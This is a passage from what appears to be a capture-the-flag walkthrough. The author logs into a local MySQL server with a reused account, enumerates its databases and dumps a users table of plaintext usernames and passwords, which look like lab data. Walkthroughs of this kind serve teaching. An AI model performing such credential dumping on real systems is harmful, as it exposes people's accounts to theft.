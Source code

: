 Looks like MySQL. Let's see if our user has access to the database.

```
tom@NIXHARD:/home/ubuntu$ mysql -h 127.0.0.1 -u tom -p
Enter password: 
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 13
Server version: 8.0.27-0ubuntu0.20.04.1 (Ubuntu)

Copyright (c) 2000, 2021, Oracle and/or its affiliates.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql>
```

Looks like it worked! Now to enumerate for some juicy data.

```
mysql> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mysql              |
| performance_schema |
| sys                |
| users              |
+--------------------+
5 rows in set (0.01 sec)

mysql> use users;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
mysql> show tables;
+-----------------+
| Tables_in_users |
+-----------------+
| users           |
+-----------------+
1 row in set (0.01 sec)

mysql>
```

Awesome! I think we're almost there. Let's search this `users` table in the `users` database.

```
mysql> select * from users;
+------+-------------------+------------------------------+
| id   | username          | password                     |
+------+-------------------+------------------------------+
|    1 | ppavlata0         | 6znAfvTbB2                   |
|    2 | ktofanini1        | TP2NxFD62e                   |
|    3 | rallwell2         | t1t7WaqvEfv                  |
|    4 | efernier3         | ZRYOBO9PI                    |
|    5 | fpoon4            | 5Spyx2Jb                     |
|    6 | jgurnell5         | LMCnWKD                      |
<...output omitted...>
|  196 | jparkhouse5f      | HCEchNzf                     |
|  197 | smcgunley5g       | 9ivT96O                      |
```